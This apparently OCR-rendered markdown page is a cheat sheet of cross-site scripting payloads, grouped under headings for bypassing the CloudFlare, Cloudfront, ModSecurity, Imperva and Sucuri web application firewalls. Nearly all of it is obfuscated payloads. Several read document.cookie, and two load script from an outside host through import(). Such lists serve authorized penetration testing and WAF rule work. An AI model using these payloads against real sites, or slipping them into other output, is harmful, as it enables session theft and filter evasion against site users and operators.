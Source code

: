 ```html
';k='e'%0Atop['al'+k+'rt'](1)//
'><A HRef=' AutoFocus OnFocus=top//?.['ale'%2B'rt'](1)>
```

### CloudFlare WAF Bypasses

```html
<svg/onload=window['al'+'ert']1337>
<Svg Only=1 OnLoad=confirm(document.cookie)>
<svg onload=alert&#0000000040document.cookie)>
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E
<sVG/oNLY%3d1//On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>
<Img Src=//X55.is OnLoad%0C=import(Src)>
<Img Src=OnXSS OnError=prompt(1337)>
<Img Src=OnXSS OnError=prompt(document.cookie)>
<Svg Only=1 OnLoad=confirm(atob('Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=='))>
```

### Cloudfront WAF Bypasses

```html
'>'><details/open/ontoggle=confirm('XSS')>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/
';window/aabb/['al'%2b'ert'](document./aabb/location);//
'>%0D%0A%0D%0A<x '='foo'><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//>'>
```

### ModSecurity WAF Bypasses

```html
<svg onload='new Function['Y000!'].find(al\u0065rt)'>
```

### Imperva WAF Bypasses

```html
<Img Src=//X55.is OnLoad%0C=import(Src)>
<sVg OnPointerEnter='location=javas+cript:ale+rt%2+81%2+9;//</div'>
<details ... ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>
<details ... ontoggle='propmt(document.cookie);'>
```

### Sucuri WAF Bypasses

```html
<A HREF='https://www.cia.gov/'>Click Here </A>
'><img src=x onerror=alert(document.cookie)>
<button onClick='prompt(1337)'>Submit</button>
<a href=j&#97v&#97script&#x3A;&#97lert(1337)>ClickMe
<a href=j&#97v&#97script&#x3A;&#97lert(document.cookie)>ClickMe
<a href='j&#97;vascript&#x3A;&#97;lert('Sucuri WAF Bypassed ! ' + document.domain + '\nCookie: ' + document.cookie);'>ClickMe</a>
```
